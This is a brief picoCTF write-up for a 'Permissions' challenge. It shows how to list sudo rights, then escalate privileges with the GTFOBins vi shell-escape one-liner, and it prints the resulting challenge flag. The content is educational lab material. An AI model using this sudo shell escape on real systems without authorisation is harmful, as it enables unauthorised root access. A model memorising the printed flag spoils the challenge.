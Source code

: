 ![Task desc](../assets/images/Permissions_image_1.png)

In this task, we need to see what commands our user can execute, elevate privileges, and obtain a flag.

Unexpectedly, but it is very similar to `hijacking` task.

---

Using `sudo -l`, we can see which commands we can execute as the user `picoplayer`.:



![image_2](../assets/images/Permissions_image_2.png)

> [!TIP]
> Check [gtfobins/vi](https://gtfobins.github.io/gtfobins/vi/) and scroll to the last `sudo` command.  

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

a shell opens, where we search for `.flag.txt`:


![image_3](../assets/images/Permissions_image_3.png)


`picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}`
